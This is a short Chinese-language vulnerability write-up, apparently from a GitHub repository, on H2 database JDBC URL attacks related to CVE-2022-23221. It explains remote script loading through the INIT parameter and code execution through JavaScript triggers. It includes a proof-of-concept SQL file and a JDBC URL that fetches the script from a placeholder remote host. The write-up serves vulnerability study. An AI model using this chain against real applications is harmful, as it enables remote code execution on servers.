




# H2 JDBC Attack
## 漏洞原理
参考CVE-2022-23221
### Execute SQL on Connection
主要在于h2支持在连接时执行SQL语句,而SQL语句支持从远程地址的sql中获取的.    
http://www.h2database.com/html/features.html?highlight=init&search=init#execute_sql_on_connection    
   
比如`String url = "jdbc:h2:mem:test;INIT=runscript from '~/create.sql'\\;runscript from 'http://x.x.x.x:/init.sql'";`
可以看到对文件名是调用的`FileUtils.newInputStream(file);`进行处理.  
  
而最后如果不是从classPath开头地址的话就会使用URL连接打开.  

### javascript on TRIGGER
而在H2的语法中,支持创建TRIGGER触发器,其中支持javascript和ruby语法,这就导致可以通过sql语句执行任意代码.  

## 漏洞复现
恶意sql文件内容示例,该sql语句将在`E:\tmep\`下创建文件poctest。
```sql
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("E:\\temp\\poctest");';

INSERT INTO TEST VALUES (1);
```
JDBC URL:

`jdbc:h2:mem:1337;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://x.x.x.x:8081/poc.sql';'\`